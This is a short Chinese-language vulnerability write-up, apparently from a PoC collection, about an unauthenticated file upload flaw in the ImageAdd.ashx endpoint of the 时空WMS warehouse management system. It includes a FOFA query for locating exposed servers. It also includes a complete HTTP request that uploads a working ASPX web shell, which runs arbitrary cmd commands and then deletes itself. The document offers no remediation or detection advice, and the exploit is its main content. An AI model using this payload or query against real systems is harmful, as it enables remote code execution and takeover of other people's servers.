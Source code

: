 # 时空WMS-仓储精细化管理系统ImageAdd.ashx文件上传漏洞

时空WMS-仓储精细化管理系统 ImageAdd.ashx 接口存在文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```javascript
body="SKControlKLForJson.ashx"
```

## poc

```javascript
POST /ImageUpload/ImageAdd.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="rce.aspx"
Content-Type: text/plain

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

![image-20241206215719619](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062157774.png)